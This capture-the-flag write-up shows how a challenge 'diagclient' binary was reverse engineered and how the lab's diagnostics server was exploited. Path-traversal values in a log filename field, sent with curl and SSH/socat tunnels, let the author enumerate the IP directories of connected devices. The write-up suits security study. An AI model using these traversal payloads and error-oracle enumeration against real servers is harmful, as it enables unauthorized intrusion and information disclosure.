

# Task 7 - There is Another - (Reverse Engineering, Exploitation)
```
Intelligence sources indicate with high probably there is a second device somewhere. We don't know where it is physically, but maybe you can find it's IP address somehow. We expect it is one of the up to 2^20 devices connected to the Blue Horizon Mobile network. Blue Horizon Mobile has explained that their internal network is segmented so all user devices are in the 100.64.0.0/12 IP range.

Figure out how the device communicates with the server you found in the previous task. It must only do so on-demand otherwise we would have probably discovered it sooner. This will probably require some in depth reverse engineering and some guess work. Use what you learn, plus intuition and vulnerability research and exploitation skills to extract information from the server somehow. Your goal is to determine the IP addresses for any devices that connected to the same server. There should be two addresses, one for the downed device, and another for the second device. Your jumpbox account has been updated to allow you to open TCP tunnels to the server (reconnect to enable the new settings). Remember the jumpbox internal IP is 100.127.0.2


Downloads:

SSH host key to authenticate the jumpbox (optional, same as before) (jumpbox-ssh_host_ecdsa_key.pub)
SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (same as before) (jumpbox.key)
Enter device IP addresses, one per line (don't guess)
```

# connect to the new server
ip address answer from the previous problem: 100.90.12.106

```bash
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.90.12.106:27017 user@external-support.bluehorizonmobile.com
```

all user device ips are in the 100.64.0.0/12 range, meaning the second octet has to be between 64 and 79 for the ip to be a user device

# Solution

## Enumeration and identification of communication channels

### Port Scanning
I initially started trying to portscan the ip address answer from the previous problem (100.90.12.106) with [this script](scanallports.sh). While technically the script works, it was extremely slow and it never actually finished scanning. I was however able to find the openssh server on port 22 with the script.

This somewhat fit together with one of the command handlers I found while reverse engineering `agent`: 
The environment variables mentioning ssh helped me recognize that `agent` or something that it called `execve` on was using `ssh` at some point, so I decided to try to track down what was actually using `ssh`.

### Network Diagram
A good portion of this task was just understanding what the network looked like, so I started to make a diagram. This is the final Diagram that I ended up with, including some information from task 8 and task 9. Note that in this diagram the blue connctions are essentially just me re-creating the connections to the C2 infrastructure that would normally be created by the device.


## Trying to run diagclient
While reversing `agent` for task 5, I identified that one of the commands that it was set up to handle starts the binary `/agent/diagclient` after setting a few environment variables.

diagclient Environment variables:
```
SSH_USERNAME=nonroot_user
BALLOON_ID=<some-uuid>
PRIVATE_KEY_PATH=<path-to-id_ed25519>

export EXPECTED_HOST_KEY=$(cat <expected_host_key>)

# guessing now

SSH_SERVER_ADDRESS
SSH_SERVER_PORT
```

At first I tried to set all of the environment variables and just run `diagclient` from the vm:
```
BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 EXPECTED_HOST_KEY=/openssh_ed25519_host_key SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=22 /agent/diagclient -v 1
```

But it kept returning
```
[diagclient] 1970/01/01 00:14:14.061021 logging enabled
[diagclient] 1970/01/01 00:14:14.066747 Failed to parse host key: ssh: no key found
```

I eventually got a little bit further when I realized that `EXPECTED_HOST_KEY` was actually supposed to be the contents of a key rather than the filepath, but it still didn't entirely work.

```
[diagclient] 1970/01/01 00:16:00.831480 logging enabled
[diagclient] 1970/01/01 00:16:01.003133 Failed to connect to SSH server: ssh: handshake failed: ssh: host key mismatch
```

While I couldn't get `diagclient` to connect, I tried to connect to the `ssh` server myself and realized that I was actually able to
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

```
ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost
```

Where I saw a message similar to this one after connecting:
```
2023/11/04 18:14:22 Diagnostic Server starting...
```

along with the message `malformed HTTP request ""`.

To make interacting with the server a little more sane, I ended up configuring `socat` to execute the `ssh` command to connect to the server and pipe interactions with port 50505 to the established stdin/stdout of the `ssh` session, that way I could interact with the server using `curl` and other tools for making web requests.
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

```
socat tcp-listen:50505,reuseaddr exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

This worked out very well, but I always ended up with a `404` error:
```
curl http://localhost:50505/robots.txt
404 page not found
```

So I decided that it was probably necessary to figure out what kind of interactions `diagclient` was supposed to be having with the server.

## Reversing diagclient
I definitely don't have a complete picture of how this works, but as I understand it `diagclient`:
- gets a listing of processes/info from the system
- serializes the data into json
- `POST`s the json to `http://<ip-addr>/diagnostics` and receives a json response that looks like `{"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}`
- if there is a `cmd_name` and `cmd_args` specified, it would execute the command.


### Running diagclient
Thinking through a little bit about what was happening with `diagclient` I realized that if there was an `EXPECTED_HOST_KEY`, the client was probably trying to ensure that the server it connected to was the actual attacker controlled server.
Eventually I ended up running `ssh-keyscan` to try to get all of the host keys that the server accepted, then just tried them in `EXPECTED_HOST_KEY` until one worked.
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

```
ssh-keyscan -p 7999 localhost > host_pub_keys
```

```bash
BALLOON_ID=ff61e7cd-4b5b-490d-8776-ad31f891f891 SSH_USERNAME=nonroot_user PRIVATE_KEY_PATH=/private/id_ed25519 \
EXPECTED_HOST_KEY=$(cat expected_host_key) SSH_SERVER_ADDRESS=192.168.86.23 SSH_SERVER_PORT=7999 \
/agent/diagclient -v 1
```

And the output looked something like this (though this output is from after the competition because I didn't think to save the output while I was working):
```
[diagclient] 1970/01/01 00:37:21.479305 logging enabled
[diagclient] 1970/01/01 00:37:21.828963 connected
[diagclient] 1970/01/01 00:37:21.867904 opened session
[diagclient] 1970/01/01 00:37:21.869106 Enabled stderr logging from server
[diagclient] 1970/01/01 00:37:21.870954 collect SystemInfo
2024/01/14 17:39:01 Diagnostic Server starting...
[diagclient] 1970/01/01 00:37:22.258475 create StatusUpdate
[diagclient] 1970/01/01 00:37:22.259209 writing request
[diagclient] 1970/01/01 00:37:22.267353 wrote request
[diagclient] 1970/01/01 00:37:26.980909 wait for server logs...
2024/01/14 17:39:06 ready
{diagserver} 2024/01/14 17:39:06.690433 Starting connection timer...
{diagserver} 2024/01/14 17:39:06.690611 received StatusUpdate without CommandResponse
{diagserver} 2024/01/14 17:39:06.690636 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2024/01/14 17:39:06.690648 HTTP/1.1 200 OK
{diagserver} 2024/01/14 17:39:06.690652 Content-Length: 75
{diagserver} 2024/01/14 17:39:06.690655 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
[diagclient] 1970/01/01 00:37:27.984856 wait for server logs...done
[diagclient] 1970/01/01 00:37:27.987149 response: &{200 OK 200 HTTP/1.1 1 1 map[Content-Length:[75]] 0x4000349300 75 [] false false map[] 0x4000360f00 <nil>}
[diagclient] 1970/01/01 00:37:27.995793 No next command. Done.
```

## Interacting with the server and finding the bug

```python
import requests
s = requests.session()
r = s.post(url, data='{}', stream=True)
```

```
╰─$ socat tcp-listen:50505,reuseaddr exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'                                    1 ↵
Pseudo-terminal will not be allocated because stdin is not a terminal.
2023/11/01 00:21:26 Diagnostic Server starting...
2023/11/01 00:21:31 ready
{diagserver} 2023/11/01 00:21:31.102634 Starting connection timer...
{diagserver} 2023/11/01 00:21:31.102783 received StatusUpdate without CommandResponse
{diagserver} 2023/11/01 00:21:31.102818 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/01 00:21:31.102840 HTTP/1.1 200 OK
{diagserver} 2023/11/01 00:21:31.102846 Content-Length: 75
{diagserver} 2023/11/01 00:21:31.102849 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/01 00:23:53.913255 error decoding StatusUpdate: json: cannot unmarshal array into Go value of type main.StatusUpdate
{diagserver} 2023/11/01 00:23:53.913280 HTTP/1.1 400 Bad Request
{diagserver} 2023/11/01 00:23:53.913284 Content-Length: 0
{diagserver} 2023/11/01 00:23:53.913288 server to client body:

```

Curl should look closer to :
```
curl -X POST -d '{"status_data":{"balloon_id":"00000000-0000-0000-0000-000000000000","system_info":null}}' http://localhost:50505/diagnostics
```


Then I noticed the message `received StatusUpdate without CommandResponse`
```
2023/11/04 18:14:22 Diagnostic Server starting...
2023/11/04 18:14:27 ready
{diagserver} 2023/11/04 18:14:27.979980 Starting connection timer...
{diagserver} 2023/11/04 18:14:27.980179 received StatusUpdate without CommandResponse
```

So I pulled the `CommandResponse` struct out of ghidra and tried to recreate it in json
```
struct main.CommandResponse {
    byte Id[16];
    struct string.conflict Starttime;
    struct string.conflict Endtime;
    struct string.conflict Cmd;
    struct string.conflict Stdout;
    struct string.conflict Stderr;
    struct string.conflict Err;
};
```

which eventually led to a post something like this:
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{}}'
```

with the following error messge:
```
2023/11/04 21:22:28 Diagnostic Server starting...
2023/11/04 21:22:33 ready
{diagserver} 2023/11/04 21:22:33.429905 Starting connection timer...
{diagserver} 2023/11/04 21:22:33.430046 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:22:33.430052 Invalid length for command_response.starttime: len() = 0 != 25
{diagserver} 2023/11/04 21:22:33.430059 HTTP/1.1 417 Expectation Failed
{diagserver} 2023/11/04 21:22:33.430064 Content-Length: 0
{diagserver} 2023/11/04 21:22:33.430068 server to client body:
{diagserver} 2023/11/04 21:22:33.585260 EOF
```


I copied some of the time strings straight out of one of the `diagserver` logs and int the fields that it was complaining about.

After adding the following json to my statusupdate json packet, I was able to get a new response
```
   "command_response": {
       "id": "00000000-0000-0000-0000-000000000000",
       "starttime": "2023/11/04 18:36:55.67755",
       "endtime": "2023/11/04 18:37:55.67755",
       "cmd": "ps",
       "stdout": "",
       "stderr": "",
       "err": ""
   },
   "status_data": {
       ...
   }
```

```
curl -X POST "http://localhost:50505/diagnostics" -d @statusdata_mod_pretty.json
```

```
{diagserver} 2023/11/04 18:40:46.318379 Starting connection timer...
{diagserver} 2023/11/04 18:40:46.318612 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 18:40:46.319160 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: no such file or directory
{diagserver} 2023/11/04 18:40:46.319173 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 18:40:46.319178 Content-Length: 0
{diagserver} 2023/11/04 18:40:46.319182 server to client body:
{diagserver} 2023/11/04 18:40:46.348772 EOF
2023/11/04 14:40:46 socat[2340372] E waitpid(): child 2340373 exited with status 1

```

It looks like I got lucky with this specifically because I copied the time out of the logs. It appears that the `starttime` value is used as the name of a logfile, but because the time format I (and diagserver) used contained a forward slash `/`, it tried to access a non-existent directory.  It also looked like the path from the previous bit wasn't sanitized at all, so I decided to play around with it a bit to see what I could accomplish.


## directory discovery
Testing out a little bit more:

A starttime of `aaaaaaaaaaaaaaaaaaaaaaaaa` didn't throw an error at all. Unfortunately I wasn't able to directly `curl -X GET` anything out of the filepath that was leaked in the error message, even when I knew an actual valid filename, `aaaaaaaaaaaaaaaaaaaaaaaaa.json`, so `GET` requests seemed like they werent usable for this.
```
curl -X POST "http://localhost:50505/diagnostics" -d '{"command_response":{"id": "00000000-0000-0000-0000-000000000000","starttime": "aaaaaaaaaaaaaaaaaaaaaaaaa","endtime": "2023/11/04 18:37:55.67755","cmd":"ps","stdout":"","stderr":"","err":""}}'
```
```
2023/11/04 21:41:17 Diagnostic Server starting...
2023/11/04 21:41:22 ready
{diagserver} 2023/11/04 21:41:22.978601 Starting connection timer...
{diagserver} 2023/11/04 21:41:22.978764 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 21:41:22.978912 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>
{diagserver} 2023/11/04 21:41:22.978928 HTTP/1.1 200 OK
{diagserver} 2023/11/04 21:41:22.978933 Content-Length: 75
{diagserver} 2023/11/04 21:41:22.978937 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
{diagserver} 2023/11/04 21:41:23.158752 EOF
```

It looks like I get a `permission denied` when trying to do a directory traversal to write to `/diagnostics/var/logs/commands/by-ip/64/7F/00/`
```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```

when trying to use the directory traversal to reach a directory for an IP that shouldn't have ever connected, I get `no such file or directory`
```
{diagserver} 2023/11/04 19:14:50.762860 Starting connection timer...
{diagserver} 2023/11/04 19:14:50.763007 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:50.763052 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../01/aaaaaaaaaaaaaaaaaaa.json: no such file or directory
{diagserver} 2023/11/04 19:14:50.763062 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:50.763067 Content-Length: 0
{diagserver} 2023/11/04 19:14:50.763071 server to client body:
{diagserver} 2023/11/04 19:14:51.000522 EOF
```


so long as differentiating between these two error cases and the one success case is possible (by reading the output of `diagserver` it was), that is enough information to enumerate the directory structure of the server. Because I also know the network and cidr for the hosts I am looking for, that also makes the number of IP addresses that I need to iterate much more manageable.

I decided to go with a depth first search using `pwntools` `process` class to start and monitor a `socat` process:
```
socat tcp-listen:50505,reuseaddr,fork exec:'ssh -o "IdentitiesOnly=yes" -i ./id_ed25519 -p 7999 nonroot_user@localhost'
```

set the jump server up again
```
ssh -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 0.0.0.0:7999:100.90.12.106:22 user@external-support.bluehorizonmobile.com
```

and by using `requests.session` to share the session, I also avoided having to fully restart the `nonroot_user` ssh session too often (which would have taken avery long time to fully reconnect every time).
```
╰─$ ./enumerate_ips.py
[+] Starting local process '/usr/bin/socat': pid 2399544
[+] found a new octet, trying to guess .(100)
[+] found a new octet, trying to guess 100.(67)
[+] found a new octet, trying to guess 100.67.(25)
[+] wrote to path! ../../../../64/43/19/E7/a
[+] found a full IP 100.67.25.231
[*] Done trying to guess 100.67.25
[*] Done trying to guess 100.67
[+] found a new octet, trying to guess 100.(69)
[+] found a new octet, trying to guess 100.69.(183)
[+] wrote to path! ../../../../64/45/B7/38/a
[+] found a full IP 100.69.183.56
[*] Done trying to guess 100.69.183
[*] Done trying to guess 100.69
[*] Done trying to guess 100
[*] Done trying to guess
[+] found ip 100.67.25.231
[+] found ip 100.69.183.56
[*] Stopped process '/usr/bin/socat' (pid 2399544)
```

My solve script for this can be found in [enumerate_ips.py](enumerate_ips.py)

